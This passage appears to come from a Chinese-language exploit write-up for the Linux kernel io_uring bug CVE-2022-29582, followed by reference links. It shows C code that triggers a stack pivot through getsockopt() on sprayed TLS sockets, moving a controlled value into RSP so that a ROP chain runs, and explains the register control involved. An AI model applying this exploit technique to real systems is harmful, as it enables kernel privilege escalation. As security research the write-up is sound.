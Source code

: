 谜题的最后一部分是触发栈迁移，我们知道在一个幸运的套接字上调用具有幸运的`tls_context`的`getsockopt()`将运行栈迁移代码，

```plain
err_t run_machine(struct manager *mgr)
{
    char *spray = mgr->spray;
    uint64_t tls_context = *(uint64_t*)&spray[SK_PROTO_OFF];
    uint64_t pivot_stack = tls_context + 0x20;

    /* Transfer control inside child task */
    if (!fork()) {
        /* Hopefully run along the ROP chain */
        puts("[+] Calling getsockopt() to trigger execution.");
        getsockopt_all_tls(0x41414141, 0x42424242,
                           pivot_stack, 0x8181818181818181);
    }
    /* Busyloop to prevent exit. */
    for (;;);
    __builtin_unreachable();
}

err_t getsockopt_all_tls(int level, int name, void *value, void* len)
{
    for (int i = 0; i < N_TLS_FDS; ++i) {
        IF_ERR(tls_fds[i]) {
            perror("getsockopt_all_tls:fd=-1");
            return ERR;
        }
        getsockopt(tls_fds[i], level, name, value, len);
    }
    return SUCC;
}
```

根据目标机器上的调用约定，我们可以通过`getsockopt()`函数的**value**参数来控制**RCX**寄存器的所有字节，我们的堆栈转移工具（即取代目标函数`getsockopt()`的代码），会将 RCX 中的值（即`tls_context + 0x20`）移动到**RSP**中（以此使用假的堆栈），然后返回地址，ROP 链位于**tls\_context + 0x20**处，开始执行，

# 参考链接

[CVE-2022-29582](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/)  
[【Exploit trick】利用 poll\_list 对象构造 kmalloc-32 任意释放 (corCTF 2022-CoRJail)](https://blog.csdn.net/panhewu9919/article/details/127804902?spm=1001.2014.3001.5501)(我 rop 链参考的这个，应该可以更简单些，懒得搞了)  
[\[linux kernel\]slub 内存管理分析 (7) MEMCG 的影响与绕过](https://blog.csdn.net/Breeze_CAT/article/details/130015930?spm=1001.2014.3001.5501)

